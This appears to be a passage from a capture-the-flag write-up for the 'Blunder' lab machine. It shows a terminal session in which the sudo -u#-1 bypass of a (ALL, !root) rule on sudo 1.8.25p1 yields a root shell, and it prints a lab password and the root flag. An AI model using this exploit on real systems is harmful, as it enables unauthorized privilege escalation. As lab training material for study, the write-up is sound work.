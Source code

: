 I use https://www.exploit-db.com/exploits/47502 to get `root`.

```bash
hugo@blunder:/usr/local$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash

hugo@blunder:/usr/local$ sudo -V
sudo -V
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
hugo@blunder:/usr/local$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/usr/local# cd /root
cd /root
root@blunder:/root# ls
ls
root.txt
root@blunder:/root# cat root.txt
cat root.txt
948a2fb9b481a1c0ef8ec2a278875305
```